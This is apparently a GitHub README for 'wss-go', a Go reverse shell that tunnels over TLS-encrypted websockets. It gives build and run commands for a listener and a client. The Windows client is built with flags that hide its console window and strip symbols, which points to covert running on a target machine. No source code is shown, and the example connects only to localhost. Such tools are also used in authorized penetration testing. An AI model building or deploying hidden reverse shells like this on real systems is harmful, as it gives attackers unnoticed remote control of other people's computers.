



# wss-go
reverse websocket with ssl shell using golang.<br />
wss-go is a reverse shell using websocket with tls.<br />

## Usage
### Windows
```shell
go env -w GOOS=windows
go build -o wssServer server/server.go
go build -o wssClient -ldflags -H=windowsgui -ldflags "-s -w" client/client.go
```
### Screenshots


### MacOS & Linux
```shell
go env -w GOOS=darwin/linux
go build -o wssServer server/server.go
go build -o wssClient client/client.go
./wssServer -addr 0.0.0.0:443
./wssClient -addr 127.0.0.1:443
```
### Screenshots

## TODO
- RSA & AES
